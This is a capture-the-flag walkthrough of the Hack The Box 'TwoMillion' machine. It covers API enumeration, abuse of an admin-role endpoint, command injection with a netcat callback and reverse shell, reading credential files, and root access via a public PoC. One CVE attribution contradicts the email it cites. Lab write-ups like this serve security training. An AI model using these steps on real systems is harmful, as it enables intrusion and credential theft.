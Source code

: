 ```yaml
---
title: HTB TwoMillion - Writeup
date: 2025-07-15 13:53:00 +0330
categories: [Writeup]
tags: []
description:

---
```


![infocard](assets/img/twomillion_infocard.png)

## - **Introduction**
The initial process to get a foothold was to first find an invite code so that we can sign up, then we used an API endpoint to change our role to Administrator. After that, we find out that there is a Command Injection vulnerability in one of the admin endpoints and so we got a reverse shell from the box.

## - **Recon & Enum**
##### Port Scanning
To start off our recon we will begin with an Nmap scan of the machine:
```shell
$ sudo nmap -sC -sV -oN 2mil_nmap --min-rate=1000 10.10.11.221
```
```
Nmap scan report for 10.10.11.221
Host is up (0.52s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

>I always perform a full scan with then `-p-` flag to make sure no port is left behind but I am not including that here as we only have two tcp ports open.
{: .prompt-info }

```shell
$ sudo echo "10.10.11.221\t2million.htb" >> /etc/hosts
```

>We need to add the 2million.htb hostname to `/etc/hosts`.
{: .prompt-tip }
---
##### Creating an Account and finding the vulnerability
After browsing the site for a bit, I found two interesting pages, `/login` and `/invite` but to actually sign up we needed an invite code.
So after analyzing the requests in burp, I noticed the api nodes.

![login](assets/img/twomillion_burp_login.png)
![verify](assets/img/twomillion_burp_verify.png)
so I tried brute forcing api endpoints using gobuster and I found `/api/v1/invite/generate`.
```shell
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://2million.htb/api/v1/invite -b 301
```
```
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://2million.htb/api/v1/invite -b 301
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://2million.htb/api/v1/invite
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   301
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/verify               (Status: 405) [Size: 0]
/generate             (Status: 405) [Size: 0]
Progress: 18806 / 1273833 (1.48%)
```
So I used burp to send a POST request and got a response with an invite code (base64 encoded).

![invitecode](assets/img/twomillion_burp_invite.png)

After creating an account and logging in, only a few pages were accessible. I got a little stuck at first but when I tried accessing `/api` again, it authorized and I got a view of every API endpoint.

![api](assets/img/twomillion_api_v1.png)

Here `/admin/setting/update` caught my eye , I started playing around with it in burp and changed my role to admin.


![update](assets/img/twomillion_burp_update.png)

## - **Foothold**
Now this is were I got stuck for quite some time, but eventually I got it.  
The `/api/v1/admin/vpn/generate` and `/api/v1/user/vpn/generate` endpoints interact with the OS, so I tried injecting commands.
Though I have to say at first I didn't see it because the responses were empty. To make sure, I set up a `netcat` listener and made a request back to myself.

![update](assets/img/twomillion_cmd.png)

```shell
$ nc -nvlp 9070         
```
```
listening on [any] 9070 ...
connect to [10.10.16.42] from (UNKNOWN) [10.10.11.221] 52748
GET / HTTP/1.1
Host: 10.10.16.42:9070
User-Agent: curl/7.81.0
Accept: */*
```

And here comes the reverse shell...
```
connect to [10.10.16.42] from (UNKNOWN) [10.10.11.221] 42046
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@2million:~/html$ id    
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@2million:~/html$
```

## - **User**
Getting the user was just waaay too easy. Looking at the files in `html` folder, there is a `.env` file. What was inside you may ask, DATABASE CREDENTIALS!
```
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=*****************
```

```
www-data@2million:~/html$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

And tada!

```
admin@2million:~$ cat user.txt
59f625d****************eebc95d5e
```

## - **Root**
Using linpeas and looking around myself I found an email which directly pointed to the vulnerability we'll use to escalate privileges.
```
admin@2million:~$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Googled a bit and found out the email is referring to `CVE-2023-4911` and I used this [POC](https://github.com/NishanthAnand21/CVE-2023-4911-PoC) to get root.
>You can use `python3 -m http.server` to send files to the victim machine.
{: .prompt-tip }

```
admin@2million:/tmp$ python3 genlib.py 
admin@2million:/tmp$ chmod +x titap
admin@2million:/tmp$ ./titap
# whoami
root
# id
uid=0(root) gid=1000(admin) groups=1000(admin)
```

And the flag

```
# cd /root
# cat root.txt 
5b5c6****************90556050597
```

Done
Thanks for reading!